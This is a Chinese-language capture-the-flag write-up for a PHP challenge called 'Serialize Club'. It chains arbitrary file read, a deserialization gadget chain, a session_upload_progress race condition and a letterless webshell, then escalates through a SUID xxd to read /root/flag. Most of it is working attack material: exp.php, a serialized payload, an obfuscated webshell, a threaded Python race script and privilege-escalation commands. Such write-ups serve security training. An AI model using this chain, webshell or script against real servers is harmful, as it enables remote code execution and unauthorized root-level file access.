




# Serialize Club

> 知识点: 任意文件读取, 反序列化链构造, session_upload_progress构造session反序列化, 无字母webshell, getshell提权读取flag
>

打开网页 F12 发现图片链接

```

```

尝试读取 index.php



发现其他文件, 读取得到

```php
<?php
class backdoor {
    protected
        //! eval code
        $cmd;

    public function __invoke() {
        if(preg_match('/[;+=!@\$\"\.\_\(\)\[\]]{1,}/i',$this->cmd)) {
            file_put_contents("/var/www/html/neepu.php", "<?php ".$this->cmd);
        }
        else{
            die("A webshell is waiting for you");
        }
    }
}
```

尝试目录穿梭但是发现不太行, 只能从这个 backdoor 突破, 看到 index.php

```php
<?php
    include "config/backdoor.php";
    ini_set('session.serialize_handler','php');
    session_start();
    class neepu {
        protected
            //! Neepu
            $neepu,
            //! Memory-held data
            $data,
            //! Info
            $info;

        public function __construct() {
            $this->neepu = "<a class=\"navbar-brand\" href=\"index.php\">Serialize</a>";
            $this->info['info'] = "<a class=\"navbar-brand\" href=\"index.php\">PHPINFO</a>";
        }

        public function checkinfo() {
            if(!isset($_POST['info'])) {
                echo $this->neepu;
            }else {
                echo $this->info['info'];
                phpinfo();
            }
        }

        public function __call($name,$args) {
            echo $this->neepu;
        }

        public function __toString() {
            $this->info['info']->data;
            return "Neepu!";
        }
    }
    class n33pu {
        public
            //! Neepu func
            $func;

        public function __get($args) {
            $Neepu = $this->func;
            return $Neepu();
        }
    }
    class dumb {
        public
            //! dumb
            $dumb;

        public function silly(){
            echo "Who care about it?";
        }

        public function __destruct(){
            $this->dumb->silly();
        }
    }
    $Neepu = new neepu();
    echo $Neepu->checkinfo();
?>
```

这里给出了可以查看 phpinfo, 意图有两个:

- 查看 session 的存储方式
- 查看 disable_functions 禁用的函数

getshell 步骤:

- 构造无字母 webshell
- 构造反序列化链

- 通过 session_upload_progress 上传 session 文件进行条件竞争, 然后触发反序列化写入 webshell

### 步骤1详细: 无字母 webshell 构造

backdoor 已经给出了 php 文件头, 只需要构造后续的 webshell 即可

```
^[;+=!@\$\"\.\_\(\)\[\]]+$
```

只能使用这些特殊字符构造 webshell

```php
<?php
$_=[];
$_=@"$_";
$_=$_["!"=="@"];
echo $_;
```

将`$_`赋予 Array 属性, 通过 @ 防止报错, 通过 `["!"=="@"]` 调用属性的开头字母A, 然后递增拼接 `_GET` 或者 `_POST`, 如下构造的是 `$_GET[_]($_GET[__])` 木马 (防止和其它POST传参混淆)

```
<?php $_=[];$_=@"$_";$_=$_["!"=="@"];$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__++;$__++;$____="_";$____.=$__;$____.=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$_[_]($_[__]);
```

然后上传以后传入`_`和`__`使用

### 步骤2详细: 反序列化链构造

反序列化链构造

```
class silly -> __destruct
↓↓↓
class neepu -> __call -> 建立neepu对象echo触发__toString
↓↓↓
class neepu -> __toString -> 建立n33pu对象访问不存在的变量触发__get
↓↓↓
class n33pu -> __get -> $Neepu() -> 建立backdoor对象以函数形式调用backdoor对象触发__invoke
↓↓↓
class backdoor -> __invoke -> 写入 webshell
```

构建 exp.php

```php
<?php
ini_set('session.serialize_handler','php_serialize');
session_start();
class neepu {
    public
        //! Memory-held data
        $data,
        //! Neepu
        $neepu,
        //! Info
        $info;

    public function __construct() {
        $this->info['info'] = new n33pu();
    }
}
class n33pu {
    public
        //! Neepu func
        $func;
}
class backdoor {
    public
        //! eval code
        $cmd = '$_=[];$_=@"$_";$_=$_["!"=="@"];$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__++;$__++;$____="_";$____.=$__;$____.=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$_[_]($_[__]);';
}
class dumb {
    public
        //! dumb
        $dumb;
}

$a = new backdoor();
$b = new neepu();
$b->neepu = new neepu();
$b->neepu->info['info']->func = $a;
$c = new dumb();
$c->dumb = $b;
$z = serialize($c);
echo '|'.str_replace('"', '\\"', $z);
/*
|O:4:\"dumb\":1:{s:4:\"dumb\";O:5:\"neepu\":3:{s:4:\"data\";N;s:5:\"neepu\";O:5:\"neepu\":3:{s:4:\"data\";N;s:5:\"neepu\";N;s:4:\"info\";a:1:{s:4:\"info\";O:5:\"n33pu\":1:{s:4:\"func\";O:8:\"backdoor\":1:{s:3:\"cmd\";s:230:\"$_=[];$_=@\"$_\";$_=$_[\"!\"==\"@\"];$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__++;$__++;$____=\"_\";$____.=$__;$____.=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$_[_]($_[__]);\";}}}}s:4:\"info\";a:1:{s:4:\"info\";O:5:\"n33pu\":1:{s:4:\"func\";N;}}}}
*/
```

为了防止双引号被转义, 在双引号前加上`\`, 除此之外还要在开头加上`|` 

### 步骤3详细: session_upload_progress 触发 session 反序列化

构建 upload.html

```html
<form action="http://ip:port/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

然后抓包修改 filename



线程稍微开大一点, 10左右差不多然后攻击查看返回信息长度



此处截图为 getshell 成功

getshell 以后访问 neepu.php, 出题人留了一个 passthru 可以使用, 根目录没有找到 flag, 猜测是在 /root 里面, 尝试提权

```
?_=passthru&__=find / -perm -u=s -type f 2>/dev/null
```

发现特殊的提权指令

```
/usr/bin/xxd
```

用途



然后提取 flag

```
?_=passthru&__=xxd "/root/flag"| xxd -r
```

脚本(改url和数据包里的Host)

```python
# -*- coding:utf-8 -*-

import io
import requests
import threading
import re
import HackRequests

sessid = 'flag'
url = "http://neepusec.club:18812"
raw = \
'''POST /index.php HTTP/1.1
Host: neepusec.club:18812
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17167262834166658353292847628
Content-Length: 898
Connection: close
Cookie: NEEPUSECID=flag
Upgrade-Insecure-Requests: 1

-----------------------------17167262834166658353292847628
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

12101
-----------------------------17167262834166658353292847628
Content-Disposition: form-data; name="file"; filename="|O:4:\\"dumb\\":1:{s:4:\\"dumb\\";O:5:\\"neepu\\":3:{s:4:\\"data\\";N;s:5:\\"neepu\\";O:5:\\"neepu\\":3:{s:4:\\"data\\";N;s:5:\\"neepu\\";N;s:4:\\"info\\";a:1:{s:4:\\"info\\";O:5:\\"n33pu\\":1:{s:4:\\"func\\";O:8:\\"backdoor\\":1:{s:3:\\"cmd\\";s:230:\\"$_=[];$_=@\\"$_\\";$_=$_[\\"!\\"==\\"@\\"];$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__++;$__++;$____=\\"_\\";$____.=$__;$____.=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$_[_]($_[__]);\\";}}}}s:4:\\"info\\";a:1:{s:4:\\"info\\";O:5:\\"n33pu\\":1:{s:4:\\"func\\";N;}}}}"
Content-Type: application/octet-stream


-----------------------------17167262834166658353292847628--
'''

def write(session):
    while True:
        resp = hack.httpraw(raw)
        # print(resp.text())

def read(session):
    while True:
        resp = session.get(url + '/neepu.php')
        if resp.status_code == 200:
            fth = "passthru"
            sth = "xxd \"/root/flag\"| xxd -r"
            # sth = ["ls", "ls /", "find / -perm -u=s -type f 2>/dev/null", "xxd \"/root/flag\"| xxd -r"]
            # for i in range(len(sth)):
            #     res = requests.get(url=url + '/neepu.php?_={}&__={}'.format(fth, sth[i]))
            #     print(f'[+]Result{i + 1}:\n' + res.text)
            res = requests.get(url=url + '/neepu.php?_={}&__={}'.format(fth, sth))
            print(res.text)
            event.clear()
        else:
            pass

if __name__=="__main__":
    hack = HackRequests.hackRequests()
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,30):
            threading.Thread(target=write,args=(session,)).start()

        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```

